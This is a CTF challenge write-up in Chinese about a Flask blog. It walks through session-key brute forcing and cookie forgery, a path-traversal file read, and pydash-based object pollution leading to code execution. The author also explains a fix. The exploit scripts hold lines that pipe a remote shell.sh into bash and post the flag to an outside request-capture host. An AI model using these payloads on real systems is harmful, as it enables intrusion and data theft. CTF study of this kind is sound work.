









# 预期

首先进来是一个普通的博客网站，非常之简陋，而这里注册一个账号，进入网站之后发现页尾有提示


这个东西有什么用处呢，F12看看什么情况



存在session，可能就是进行flask的session伪造了，写个简单的脚本，中途有师傅来问我时间戳是怎么样的，其实呢，我反正都也说明白的

```python
import time
import hashlib

# 获取整数时间戳
timestamp = int(time.time())
start = timestamp - 300000
end = timestamp + 300000

# 生成整数范围并计算其 MD5 哈希值
my_dict = {i: hashlib.md5(str(i).encode()).hexdigest() for i in range(start, end + 1)}

# 将 MD5 哈希值写入文件
with open('./output.txt', 'w') as f:
    for key, md5_hash in my_dict.items():
        f.write(f"{md5_hash}\n")

print("MD5 哈希值已成功写入文件 output.txt")
```

然后使用`flask-unsign`来进行爆破密钥

```
flask-unsign --unsign --cookie "eyJ1c2VybmFtZSI6ImJhb3pvbmd3aSJ9.Z20ytA.1XlW1ub_pD2C01b9TRSrpAeX7Ps" --wordlist C:\Users\baozhongqi\Desktop\output.txt

flask-unsign --sign --cookie "{'username': 'admin'}" --secret '3d878169e90d61b3429d932e168282f7'
```

然后换上就发现多了一个友链添加的功能，这里看着像是有ssrf漏洞，但是测试了很久也没有任何东西，而且也没有探测到有常见端口在，看友链也是直接一个重定向，在文章处测试了很久发现原来有任意文件读取



那先读取`/etc/passwd`



但是好像没成功理论上这个payload是对的



双写绕过即可，那么我们读取重要变量

```
/proc/self/environ

/proc/self/cmdline

/app/app.py
```





```python
from flask import *
import time,os,json,hashlib
from pydash import set_
from waf import pwaf,cwaf

app = Flask(__name__)
app.config['SECRET_KEY'] = hashlib.md5(str(int(time.time())).encode()).hexdigest()

users = {"testuser": "password"}
BASE_DIR = '/var/www/html/myblog/app'

articles = {
    1: "articles/article1.txt",
    2: "articles/article2.txt",
    3: "articles/article3.txt"
}

friend_links = [
    {"name": "bkf1sh", "url": "https://ctf.org.cn/"},
    {"name": "fushuling", "url": "https://fushuling.com/"},
    {"name": "yulate", "url": "https://www.yulate.com/"},
    {"name": "zimablue", "url": "https://www.zimablue.life/"},
    {"name": "baozongwi", "url": "https://baozongwi.xyz/"},
]

class User():
    def __init__(self):
        pass

user_data = User()
@app.route('/')
def index():
    if 'username' in session:
        return render_template('blog.html', articles=articles, friend_links=friend_links)
    return redirect(url_for('login'))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username in users and users[username] == password:
            session['username'] = username
            return redirect(url_for('index'))
        else:
            return "Invalid credentials", 403
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        users[username] = password
        return redirect(url_for('login'))
    return render_template('register.html')


@app.route('/change_password', methods=['GET', 'POST'])
def change_password():
    if 'username' not in session:
        return redirect(url_for('login'))

    if request.method == 'POST':
        old_password = request.form['old_password']
        new_password = request.form['new_password']
        confirm_password = request.form['confirm_password']

        if users[session['username']] != old_password:
            flash("Old password is incorrect", "error")
        elif new_password != confirm_password:
            flash("New passwords do not match", "error")
        else:
            users[session['username']] = new_password
            flash("Password changed successfully", "success")
            return redirect(url_for('index'))

    return render_template('change_password.html')


@app.route('/friendlinks')
def friendlinks():
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))
    return render_template('friendlinks.html', links=friend_links)


@app.route('/add_friendlink', methods=['POST'])
def add_friendlink():
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))

    name = request.form.get('name')
    url = request.form.get('url')

    if name and url:
        friend_links.append({"name": name, "url": url})

    return redirect(url_for('friendlinks'))


@app.route('/delete_friendlink/<int:index>')
def delete_friendlink(index):
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))

    if 0 <= index < len(friend_links):
        del friend_links[index]

    return redirect(url_for('friendlinks'))

@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))

    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")

    blacklist = ["waf.py"]
    if any(blacklisted_file in file_name for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    
    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"

    return render_template('article.html', file_name=file_name, content=content)


@app.route('/Admin', methods=['GET', 'POST'])
def admin():
    if request.args.get('pass')!="SUers":
        return "nonono"
    if request.method == 'POST':
        try:
            body = request.json

            if not body:
                flash("No JSON data received", "error")
                return jsonify({"message": "No JSON data received"}), 400

            key = body.get('key')
            value = body.get('value')

            if key is None or value is None:
                flash("Missing required keys: 'key' or 'value'", "error")
                return jsonify({"message": "Missing required keys: 'key' or 'value'"}), 400

            if not pwaf(key):
                flash("Invalid key format", "error")
                return jsonify({"message": "Invalid key format"}), 400

            if not cwaf(value):
                flash("Invalid value format", "error")
                return jsonify({"message": "Invalid value format"}), 400

            set_(user_data, key, value)

            flash("User data updated successfully", "success")
            return jsonify({"message": "User data updated successfully"}), 200

        except json.JSONDecodeError:
            flash("Invalid JSON data", "error")
            return jsonify({"message": "Invalid JSON data"}), 400
        except Exception as e:
            flash(f"An error occurred: {str(e)}", "error")
            return jsonify({"message": f"An error occurred: {str(e)}"}), 500

    return render_template('admin.html', user_data=user_data)


@app.route('/logout')
def logout():
    session.pop('username', None)
    flash("You have been logged out.", "info")
    return redirect(url_for('login'))


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```

可以直接看到有pydash，其中导入了`set_`，然后不断跟进到`update_with`，发现这个东西很像merge函数，那么这里的考点应该就是原型链污染了，但是可以很明显的看到，这里是有waf的，要绕过waf进行文件读取或者是RCE

```python
def update_with(obj, path, updater, customizer=None):  # noqa: C901
    """
    This method is like :func:`update` except that it accepts customizer which is invoked to produce
    the objects of path. If customizer returns ``None``, path creation is handled by the method
    instead. The customizer is invoked with three arguments: ``(nested_value, key, nested_object)``.

    Args:
        obj (list|dict): Object to modify.
        path (str|list): A string or list of keys that describe the object path to modify.
        updater (callable): Function that returns updated value.
        customizer (callable, optional): The function to customize assigned values.

    Returns:
        mixed: Updated `obj`.

    Warning:
        `obj` is modified in place.

    Example:

        >>> update_with({}, '[0][1]', lambda: 'a', lambda: {})
        {0: {1: 'a'}}

    .. versionadded:: 4.0.0
    """
    if not callable(updater):
        updater = pyd.constant(updater)

    if customizer is not None and not callable(customizer):
        call_customizer = partial(callit, clone, customizer, argcount=1)
    elif customizer:
        call_customizer = partial(callit, customizer, argcount=getargcount(customizer, maxargs=3))
    else:
        call_customizer = None

    default_type = dict if isinstance(obj, dict) else list
    tokens = to_path_tokens(path)

    if not pyd.is_list(tokens):  # pragma: no cover
        tokens = [tokens]

    last_key = pyd.last(tokens)

    if isinstance(last_key, PathToken):
        last_key = last_key.key

    target = obj

    for idx, token in enumerate(pyd.initial(tokens)):
        if isinstance(token, PathToken):
            key = token.key
            default_factory = pyd.get(tokens, [idx + 1, "default_factory"], default=default_type)
        else:
            key = token
            default_factory = default_type

        obj_val = base_get(target, key, default=None)
        path_obj = None

        if call_customizer:
            path_obj = call_customizer(obj_val, key, target)

        if path_obj is None:
            path_obj = default_factory()

        base_set(target, key, path_obj, allow_override=False)

        try:
            target = base_get(target, key, default=None)
        except TypeError as exc:  # pragma: no cover
            try:
                target = target[int(key)]
                _failed = False
            except Exception:
                _failed = True

            if _failed:
                raise TypeError(f"Unable to update object at index {key!r}. {exc}")

    value = base_get(target, last_key, default=None)
    base_set(target, last_key, callit(updater, value))

    return obj
```

然后进行fuzz即可，发现过滤了`__loader__`，直接用`__spec__`进行替换即可，写个脚本进行发包即可，不过后面的`value`参数一样有问题，仍然需要绕过，不过curl是可以使用的，

```python
import requests
import json
url="http://27.25.151.48:10002/Admin?pass=SUers"

payload={"key":"__init__.__globals__.json.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2","value":"*;import os;os.system('curl http://156.238.233.9/shell.sh|bash');#"}

headers={'Content-Type': 'application/json'}
payload_json=json.dumps(payload)
print(payload_json)

r=requests.post(url,data=payload_json,headers=headers)
print(r.text)
```

污染成功之后，访问网站，触发，成功反弹，



但是这里的靶机是两分钟刷新的，如果这里的靶机是五分钟的，那么推荐V&N师傅infor宝子的做法

```python
import requests
import time

url1 = "http://27.25.151.48:5000/Admin?pass=SUers"
url2 = "http://27.25.151.48:5001/Admin?pass=SUers"

cookies = {"session":"eyJ1c2VybmFtZSI6ImFkbWluIn0.Z4MUfA.gaWUfOrunhWrYl1po8bZCWjzePk"}

json = {
    "key":"__init__.__globals__.globals.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2",
    "value":"*;import os;os.system('/read''f''lag | curl -d @- bxyyymgu.requestrepo.com')"
}
while True:
    res = requests.post(url1, cookies=cookies,json=json)
    print(res.text)
    print(requests.get(url1,cookies=cookies).text)

    res = requests.post(url2, cookies=cookies,json=json)
    print(res.text)
    print(requests.get(url2,cookies=cookies).text)
    time.sleep(5)
```

# 小点子

其实我一开始出题的时候我就知道怎么绕过时间戳这里的问题，因为我的session设置只有用户名，所以如果注册admin就可以绕过，这个是正常的，搞笑的是一个代码问题，请看路由

```python
@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))

    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")

    blacklist = ["waf.py"]
    if any(blacklisted_file in file_name for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    
    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"

    return render_template('article.html', file_name=file_name, content=content)
```

这里我将路径替换写到了最后面，所以导致了非预期，



那么如何修复这个漏洞呢，其实测试一下发现，只要将代码顺序修改一下就可以修复这个漏洞了



```python
@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))

    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")

    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    
    blacklist = ["waf.py"]
    if any(os.path.basename(file_path) == blacklisted_file for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"

    return render_template('article.html', file_name=file_name, content=content)
```

